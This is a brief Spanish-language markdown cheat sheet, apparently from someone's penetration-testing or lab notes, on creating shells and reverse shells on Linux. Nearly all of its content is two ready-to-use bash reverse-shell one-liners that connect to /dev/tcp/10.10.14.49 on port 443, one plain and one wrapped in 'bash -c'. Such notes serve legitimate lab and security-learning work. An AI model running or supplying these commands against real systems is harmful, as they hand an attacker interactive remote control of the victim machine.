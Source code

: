 # SHELLs y revewrse SHELLs

Aqui iremos describiendo las diferentes maneras de crear SHELLs a medida que nos las encontremos.

## LINUX

Diferentes manereas de crear shells en linux.

La manera mas directa de crear una reverse shell en linus es:
<pre>
bash -i >& /dev/tcp/10.10.14.49/443 0>&1
</pre>

Aunque a veces es mejor indicarselo como parámetro:

<pre>
bash -c "bash -i >& /dev/tcp/10.10.14.49/443 0>&1"
</pre>


